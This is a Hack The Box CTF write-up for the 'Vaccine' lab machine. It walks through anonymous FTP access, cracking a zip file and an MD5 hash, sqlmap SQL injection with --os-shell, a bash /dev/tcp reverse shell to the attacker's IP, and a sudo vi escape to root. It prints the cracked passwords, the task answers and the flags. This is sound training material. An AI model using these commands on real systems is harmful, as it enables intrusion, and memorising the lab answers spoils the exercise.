# HTB — Vaccine (Starting Point Tier 2)
**Date:** June 20, 2026
**Difficulty:** Easy
**OS:** Linux

## Tasks
* **Task 1:** Besides SSH and HTTP, what other service is hosted on this box? **FTP**
* **Task 2:** This service can be configured to allow login with any password for specific username. What is that username? **anonymous**
* **Task 3:** What is the name of the file downloaded over this service? **backup.zip**
* **Task 4:** What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts? **zip2john**
* **Task 5:** What is the password for the admin user on the website? **qwerty789**
* **Task 6:** What option can be passed to sqlmap to try to get command execution via the sql injection? **--os-shell**
* **Task 7:** What program can the postgres user run as root using sudo? **vi**

## Objective
Gain initial access by exploiting an anonymous FTP login to retrieve a password-protected backup archive. Crack the archive's password to uncover web source code containing a hardcoded, hashed admin password. Crack the MD5 hash to authenticate into the web dashboard, and exploit a SQL injection vulnerability in the search function using `sqlmap` to gain an interactive shell. Finally, escalate privileges to root by exploiting misconfigured `sudo` permissions on the `vi` text editor.

## Tools Used
- nmap
- ftp
- zip2john & john (John the Ripper)
- hashcat
- sqlmap
- netcat (nc)

## Methodology
1. Ran `nmap` to discover open ports → found port 21 (FTP), 22 (SSH), and 80 (HTTP).
2. Connected to FTP anonymously and downloaded the `backup.zip` file.
3. Used `zip2john` to extract the password hash from the zip file and cracked it using `john`.
4. Extracted the backup files and analyzed `index.php` to find a hardcoded MD5 hash for the admin user.
5. Cracked the MD5 hash using `hashcat` to retrieve the admin password.
6. Logged into the MegaCorp web portal on port 80.
7. Extracted the active session cookie and used `sqlmap` to test the Car Catalogue search function, identifying a PostgreSQL injection vulnerability.
8. Used `sqlmap` with the `--os-shell` flag to exploit the SQLi and gain remote command execution.
9. Executed a bash reverse shell payload via the `sqlmap` pseudo-shell to a waiting netcat listener.
10. Stabilized the shell as the `postgres` user and retrieved the user flag.
11. Enumerated the web directory to find hardcoded PostgreSQL database credentials inside the PHP source code.
12. Leveraged the discovered database credentials to establish a stable SSH session as the `postgres` user.
13. Checked `sudo -l` permissions and discovered the user can run `vi` as root on a specific configuration file.
14. Exploited the `vi` editor's command mode to spawn a root shell and retrieve the final flag.

## Step-by-Step

**Step 1: Enumeration**
An Nmap scan reveals that ports 21 (FTP), 22 (SSH), and 80 (HTTP) are open. The FTP service explicitly allows anonymous login.



**Step 2: FTP Access & Data Exfiltration**
We connect to the FTP server using the `anonymous` user and no password. Listing the directory reveals a file named `backup.zip`. We use the `get` command to download it to our local machine.



**Step 3: Cracking the Zip Archive**
Attempting to unzip `backup.zip` prompts for a password. We use `zip2john` to convert the zip file into a hash format that John the Ripper can understand. Running `john` against the resulting hash file with the `rockyou.txt` wordlist quickly cracks the password: `741852963`.



**Step 4: Source Code Analysis**
With the password, we successfully unzip the archive, extracting `index.php` and `style.css`.



Reading the contents of `index.php` with `cat`, we see the backend authentication logic. It checks if the username is 'admin' and verifies the password against a hardcoded MD5 hash: `2cb42f8734ea607eefed3b70af13bbd3`.



**Step 5: Cracking the Admin Hash**
We save the discovered MD5 hash into a text file and use `hashcat` (mode 0 for MD5) against the `rockyou.txt` wordlist to crack it.



Hashcat successfully cracks the hash in roughly one second, revealing the admin password is `qwerty789`.



**Step 6: Web Application Login**
We navigate to the web server on port 80 and are presented with the MegaCorp Login page. We input the discovered credentials (`admin` / `qwerty789`).





**Step 7: Session Cookie Extraction & SQLi Identification**
Upon successful login, we are redirected to the MegaCorp Car Catalogue dashboard (`dashboard.php`), which features a searchable database. To test for SQL injection, we use a browser extension (like Cookie-Editor) to grab our active `PHPSESSID` cookie.



We feed the target URL and the session cookie into `sqlmap` to automate the discovery of SQL injection flaws in the `search` parameter: `sqlmap -u 'http://10.129.105.35/dashboard.php?search=any+thing' --cookie="PHPSESSID=nc3vmkhqscp9r0e6enhs11u95k"`. `sqlmap` confirms the backend is PostgreSQL and identifies the parameter as injectable.



**Step 8: Gaining Command Execution via Sqlmap**
To leverage this injection into remote command execution, we append the `--os-shell` flag to our `sqlmap` command. This exploits the vulnerability to drop a web stager, giving us an interactive pseudo-shell on the target system.



**Step 9: Executing a Reverse Shell**
We prepare a netcat listener on our local machine on port 1337 (`nc -nvlp 1337`).



Inside the `sqlmap` os-shell, we execute a standard bash reverse shell payload pointing back to our VPN IP address: `bash -c "bash -i >& /dev/tcp/10.10.15.172/1337 0>&1"`.



**Step 10: Catching & Stabilizing the Shell**
Our netcat listener catches the incoming connection, granting us a shell as the `postgres` user. To make the shell fully interactive and stable (allowing for clearing the screen, tab-completion, and command history), we use Python to spawn a PTY: `python3 -c 'import pty;pty.spawn("/bin/bash")'`. We then background the process (`Ctrl+Z`), stabilize it with `stty raw -echo; fg`, and set our terminal variable (`export TERM=xterm`).



**Step 11: Retrieving the User Flag**
As the `postgres` user, we navigate back one directory to `/var/lib/postgresql/11` and list the contents. We find the `user.txt` file and read it to claim the user flag.



**Step 12: Enumerating for Lateral Movement / Persistence**
To find a more persistent method of access, we check the web root directory (`/var/www/html`). We find the web application files, including `dashboard.php`.



Reading the contents of `dashboard.php`, we uncover the hardcoded database connection string. This reveals the plaintext password for the `postgres` database user: `P@s5w0rd!`.



**Step 13: Gaining SSH Access**
Since the system user and database user share the same name (`postgres`), we attempt password reuse. We initiate an SSH connection (`ssh postgres@10.129.105.35`) and provide the discovered password `P@s5w0rd!`. The authentication succeeds, giving us a highly stable, encrypted session to proceed with privilege escalation.



**Step 14: Privilege Escalation via Sudo & Vi**
With a stable SSH connection, we check our sudo privileges by running `sudo -l`. This reveals that the `postgres` user can run the `/bin/vi` text editor as root, specifically to edit the `/etc/postgresql/11/main/pg_hba.conf` file.



We execute the allowed command: `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`.

Once inside the `vi` editor, we can exploit its built-in command capabilities. By typing `:` to enter command mode, we first set the shell variable to `/bin/sh` with the command `:set shell=/bin/sh`.



Next, we execute the shell from within `vi` by typing `:shell`. Because `vi` was launched with `sudo`, the spawned shell inherits root privileges.



**Step 15: The Root Flag**
We are dropped into a root shell. Running `whoami` confirms our privileges. We navigate to the root home directory (`cd /root`) and read the `root.txt` file to claim the final flag.



## Key Learning
Leaving backup files in publicly accessible or anonymously accessible FTP directories is a critical misconfiguration that often leads to source code leakage. Furthermore, hardcoding credentials—even if hashed—is a poor security practice, especially when relying on deprecated and easily crackable algorithms like MD5. In combination with database inputs lacking proper sanitization (SQLi) and overly permissive `sudo` rights on interactive binaries (`vi`), attackers can easily chain these vulnerabilities to achieve full system compromise. Programs like `vi`, `less`, `more`, and `awk` have features allowing users to execute shell commands; if a user is allowed to run these as root via `sudo`, it almost always results in trivial privilege escalation.

## Flags
**User Flag:** `ec9b13ca4d6229cd5cc1e09980965bf7`
**Root Flag:** `dd6e058e814260bc70e9bbdef2715849`